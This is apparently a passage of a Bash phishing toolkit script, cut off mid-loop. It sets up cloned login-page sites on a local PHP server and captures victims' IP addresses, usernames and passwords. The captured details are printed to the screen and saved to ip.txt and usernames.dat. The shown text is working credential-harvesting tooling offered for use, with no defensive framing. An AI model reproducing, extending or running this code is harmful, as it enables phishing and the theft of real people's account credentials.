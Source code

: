 	read -p "${RED}[${WHITE}*${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 99 ]]; then
		msg_exit
	elif [[ "$REPLY" == 0 || "$REPLY" == 00 ]]; then
		echo -ne "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Returning to main menu..."
		{ sleep 1; main_menu; }
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; about; }
	fi
}

## Setup website and start php server
HOST='127.0.0.1'
PORT='8080'

setup_site() {
	echo -e "\n${RED}[${WHITE}*${RED}]${BLUE} Setting up server..."${WHITE}
	cp -rf .sites/"$website"/* .server/www
	cp -f .sites/ip.php .server/www/
	echo -ne "\n${RED}[${WHITE}*${RED}]${BLUE} Starting PHP server..."${WHITE}
	cd .server/www && php -S "$HOST":"$PORT" > /dev/null 2>&1 & 
}

## Get IP address
capture_ip() {
	IP=$(grep -a 'IP:' .server/www/ip.txt | cut -d " " -f2 | tr -d '\r')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}*${RED}]${GREEN} Victim's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}*${RED}]${BLUE} Saved in : ${ORANGE}ip.txt"
	cat .server/www/ip.txt >> ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}*${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}*${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}*${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}*${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}*${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}*${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}*${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt